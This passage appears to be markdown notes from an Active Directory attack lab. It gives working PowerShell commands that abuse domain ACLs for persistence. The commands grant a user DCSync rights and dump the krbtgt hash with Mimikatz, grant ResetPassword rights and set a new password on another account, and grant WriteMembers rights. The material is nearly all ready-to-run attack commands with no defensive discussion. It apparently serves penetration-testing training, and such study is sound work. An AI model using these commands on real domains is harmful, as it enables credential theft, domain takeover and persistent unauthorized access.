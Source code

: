 
#### DCSync Rights

```powershell
# Confirm if user already has DCSync rights with PowerView
Get-ObjectAcl -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -ResolveGUIDs | ?{ ($_.IdentityReference -match "student572") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match "GenericAll")) }

# Using PowerView
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName "student572" -Rights "DCSync" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -GUIDRight "DCSync" -Verbose

# Execute DCSync to dump hash for krbtgt account
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### ResetPassword Rights

```powershell
# Using PowerView
Add-ObjectAcl -TargetADSprefix 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student572 -Rights "ResetPassword" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -GUIDRight "ResetPassword" -Verbose

# Reset password for account
# Using PowerView_dev
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

# Using AD Module
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

#### WriteMembers Rights

```powershell
# Using PowerView
Add-ObjectAcl -TargetADSprefix 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student572 -Rights "WriteMembers" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -GUIDRight "WriteMembers" -Verbose
```
